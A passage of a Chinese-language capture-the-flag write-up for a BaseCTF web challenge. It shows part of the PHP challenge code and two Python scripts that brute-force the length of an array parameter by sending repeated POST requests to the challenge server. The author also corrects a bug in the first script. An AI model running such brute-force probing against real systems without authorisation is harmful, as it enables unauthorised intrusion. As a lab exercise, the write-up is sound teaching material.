 ```php
    $flag[$ii] = md5(ord($array[$ii]) ^ $ii);
  }
  
  echo json_encode($flag);
}
```
:::

刚开始自己做的时候写脚本跑数组大小，刚开始我的爆破脚本
::: details
```python
import requests
import re

url = 'http://challenge.basectf.fun:20714/'
data = "len[0]=0"
for i in range(1,100):
    data = data + f"&len[{i}]={i}"
    resp = requests.post(url,data)
    print(data)
    # print(resp.text)
    pattern = r"我不管，我要玩原神"
    matches = re.findall(pattern,resp.text)
    print(len(matches))
    if len(matches) > 2:
        print(f"找到啦！！！\n数组长度是：{i}")
        break
```
:::

跑的怀疑人生。现在复现时发现我是`sb`，这个脚本里发包的data数据是长度为1的字典。爆破题目的数组大小需要传字典数据，这是改进脚本

::: details
```python
import requests
import re

url = 'http://challenge.basectf.fun:20714/'
data = {}
for i in range(1,100):
    # 添加字典数据长度
    data[f"len[{i}]"] = f"{i}"
    resp = requests.post(url,data)
    pattern = r"我不管，我要玩原神"
    matches = re.findall(pattern,resp.text)
    print(len(matches))
    if len(matches) == 2:
        print(f"找到啦！！！\n数组长度是：{i}")
        print(data)
        data = "len[0]=0"
        for j in range(1,i):
            data = data + f"&len[{j}]={j}"
            resp = requests.post(url,data)
        print(f"构造的len：  {data}")
        break
```
:::
